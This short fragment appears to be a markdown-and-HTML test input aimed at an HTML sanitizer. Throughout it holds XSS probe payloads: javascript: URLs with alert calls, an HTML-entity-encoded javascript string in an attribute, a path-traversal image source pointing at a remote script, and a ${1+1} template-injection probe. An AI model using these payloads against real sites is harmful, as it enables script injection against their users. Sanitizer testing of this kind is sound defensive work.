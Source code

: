 ![

<img src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">

<a href="//javascript:/../../:alert(2);/,javascript:alert(1)</title>//#">XXX</a>

<img id="meu" src="" tabindex=&#60;&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;></div>
<div id="${1+1}">bbbb</div>
<span value="javascript:document.getElementById('user-content-meu').src='123';">aaa</span>

](()
